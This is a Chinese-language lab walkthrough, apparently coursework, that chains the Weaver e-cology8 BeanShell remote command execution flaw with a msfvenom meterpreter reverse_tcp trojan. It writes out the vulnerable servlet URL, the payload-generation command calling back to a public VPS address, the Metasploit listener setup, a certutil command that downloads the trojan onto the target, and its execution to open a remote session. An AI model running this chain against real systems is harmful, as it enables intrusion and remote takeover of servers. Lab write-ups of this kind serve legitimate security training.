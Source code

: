 > 三七记于2022年10月12日16:07:10
>
> 流程: 生成木马,开启监听 \=\=>上传木马到192.168.5.118的网站目录下\=\=>192.168.5.123下载木马并执行

## 访问泛微协同商务系统

浏览器访问网址: `http://192.168.5.123/login/Login.jsp?logintype=1`

>  使用的浏览器代理: `socks5://120.78.76.236:2022`
>
> 访问的浏览器: `firefox`

画面:

<img src="img/%E7%94%BB%E9%9D%A2.png" alt="画面" style="zoom:50%;" />

## 查找e-cology8的漏洞

> 远程命令执行漏洞介绍[地址]([(15条消息) 泛微OA E-cology（CNVD-2019-32204）远程命令执行漏洞复现分析_洋洋cc的博客-CSDN博客_泛微oa漏洞复现](https://blog.csdn.net/weixin_45382656/article/details/118565142)):`https://blog.csdn.net/weixin_45382656/article/details/118565142`

存在问题的页面的URL:`http://192.168.5.123/weaver/bsh.servlet.BshServlet/`, 访问情况如下(已使用):

<img src="img/image-20221012161941450.png" alt="image-20221012161941450" style="zoom: 50%;" />

**测试**

1. 在script中输入`exec("whoami");`
2. 点击`evaluate`执行
3. 返回当前用户,效果如图
4. 可以更换成其他命令

<img src="img/image-20221012162243431.png" alt="image-20221012162243431" style="zoom:50%;" />



## VPS生成木马

登录vps:![image-20221012162658876](img/image-20221012162658876.png)

> lsb_release 查看发行版本

使用命令生成木马;`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=120.78.76.236 LPORT=12363 -a x64 -f exe > 12363.exe`

> LHOST输入的是vps的公网ip
>
> LPORT是要监听的端口
>
> 曾因为将LPORT打成LPOST,多次生成无效的木马
>
> `msfvenom -p windows/x64/meterpreter/reverse_tcp --platform Windows LHOST=120.78.76.236 LPOST=12362  -a x64 -f exe > 12362.exe`
>
> 修正后应该可以使用,但没有测试

反馈结果:![image-20221012163208474](img/image-20221012163208474.png)

## vps开启监听

1. 进入msf,使用命令`msfconsole;`
2. 输入命令`handler -p windows/x64/meterpreter/reverse_tcp -H 172.24.243.233 -P 12363`

> -H 是自己的内网ip
>
> -p 与生成木马时的端口对应

3. 反馈结果![image-20221012165204310](img/image-20221012165204310.png)

> 你可以使用jobs查看进程
>
> ![image-20221012165304413](img/image-20221012165304413.png)
>
> 你可以使用`jobs -k {id}`来关闭某个进程,如此时可以用`jobs -k 1`来关闭监听

## 将木马上传到靶机118

**首先**,将生成的木马下载到本地

* 使用命令`sz 12363.exe`
* 展示:<img src="img/image-20221012164156167.png" alt="image-20221012164156167" style="zoom:25%;" />
* 完成后:<img src="img/image-20221012164226840.png" alt="image-20221012164226840" style="zoom:25%;" />

第二步, 在自己的虚拟机上测试, 如果认为自己的配置没有问题, 可以跳过这一步.

* 展示：<img src="img/image-20221012164635713.png" alt="image-20221012164635713" style="zoom:25%;" />![image-20221012183747373](img/image-20221012183747373.png)

  > 你可以在任务管理器中关闭12363.exe

* 在vps上有显示信息

![image-20221012165250277](img/image-20221012165250277.png)

> 注意要开监听且端口对应

* 使用`sessions `查看会话![image-20221012165500859](img/image-20221012165500859.png)

* 使用`sessions -k 1`关闭会话![image-20221012165555735](img/image-20221012165555735.png)

> 1 为sessions的ID

第三步, 将木马12363.EXE 上传到靶机192.168.5.118上.

* 192.168.5.118的公网地址为117.167.136.240
* 端口映射 192.168.5.118:80 => 117.167.137.240:55580
* 使用蚁剑上传到web服务器网站根目录(也可以是其他路径, 要求可以通过web服务下载).
* 不展示过程, 结果:![image-20221012170221043](img/image-20221012170221043.png)

* 访问http://192.168.5.118/12363.exe测试能否下载

## 下载并运行木马

在`http://192.168.5.123/weaver/bsh.servlet.BshServlet/`界面script中更换exec()中的`whoami`为`certutil -urlcache -split -f http://192.168.5.118:80/12359.exe`, 点击运行

结果:

<img src="img/image-20221012172251438.png" alt="image-20221012172251438" style="zoom:50%;" />

将命令换成`cmd /c dir`查看是否下载成功, 如图:

<img src="img/image-20221012172108322.png" alt="image-20221012172108322" style="zoom:50%;" />

![image-20221012172414953](img/image-20221012172414953.png)



使用命令`cmd /c 12363.exe`执行木马.

* 页面会一直处于加载中<img src="img/image-20221012172631371.png" alt="image-20221012172631371" style="zoom:50%;" />

* script中的内容:<img src="img/image-20221012172707377.png" alt="image-20221012172707377" style="zoom:50%;" />
* vps中上线了一个新会话:![image-20221012172754516](img/image-20221012172754516.png)

* 使用sessions查看会话,可以看到192.168.5.123![image-20221012172926096](img/image-20221012172926096.png)

--------------

至此, 课程回归结束